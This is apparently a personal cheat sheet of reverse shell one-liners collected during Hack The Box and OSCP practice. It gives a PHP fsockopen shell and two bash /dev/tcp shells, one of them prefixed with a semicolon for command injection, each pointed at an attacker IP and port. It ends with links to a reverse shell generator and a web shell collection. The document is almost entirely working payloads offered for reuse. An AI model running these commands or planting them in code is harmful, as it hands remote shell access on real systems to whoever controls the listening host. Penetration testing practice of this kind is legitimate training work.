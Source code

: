 ## Reverse shells that actually worked during my travels

--> Php

```
php -r '$sock=fsockopen("10.10.14.31",4321);exec("/bin/sh -i <&3 >&3 2>&3");'
```

--> Bash

``` (from Script Kiddie, htb)
;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.176/4444 0>&1' #
```


--> Bash2

```(From OSCP Study, this takes no " or ')
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```


--> Reverse Shell Generator:

https://github.com/mthbernardes/rsg

--> Reverse shells:

https://github.com/jbarcia/Web-Shells/tree/master/laudanum

